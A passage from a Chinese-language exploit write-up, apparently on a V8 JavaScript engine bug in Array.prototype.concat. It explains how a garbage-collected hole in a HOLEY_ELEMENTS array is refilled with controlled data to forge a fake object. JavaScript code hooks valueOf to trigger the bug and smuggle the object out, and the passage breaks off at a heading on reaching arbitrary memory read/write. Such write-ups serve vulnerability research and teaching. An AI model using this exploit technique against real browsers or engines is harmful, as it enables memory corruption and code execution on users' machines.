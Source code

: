 ```sh
        +               ...                        +
        --------------------------------------------
```

在按照刚才 leak 时相同的思路触发漏洞时，如果在 gc 过程中已经正好用可控的内容覆盖了上面的空洞，同时这个数组类型为 HOLEY_ELEMENTS（与 leak 中的 HOLEY_DOUBLE_ELEMENTS 不同，包含对象类型的元素），则：

- array 的 length 被修改为 1

- gc 触发，控制 HOLE 的值指向准备好的 `fake_object`

- concat 遍历到 HOLE，进入慢过程，把这个地址当作对象来处理

于是 `fake_object` 就被伪造成功了，不过还得在避免程序 crash 的情况下施展手段把它传出来，为之后的利用创造条件，这里提供一种 `try/catch` 的办法来中途停止 concat，否则它会把之后的内容都视作对象导致程序崩溃：

```js
function overlap() {

    // ...

    Array.prototype[10] = {
        valueOf: function() {
            corrupted_array.length = 1;
            gc();

            print("[SUCCESS] CALLBACK (overlaping)")

            Object.prototype.valueOf = function() {
                // 这里把我们伪造的对象传出来
                g_controlled_arr = this;
                delete Object.prototype.valueOf;
                // 终止 concat 
                throw "Fake object is under cuntrol!";
                return 4.3;
            }
            delete Array.prototype[10];
            return 4.3;
        }
    };

    // ...
}

try {
    overlap();
} catch(e) {
    log(e);
}

```

#### 从越界读写到任意地址读写
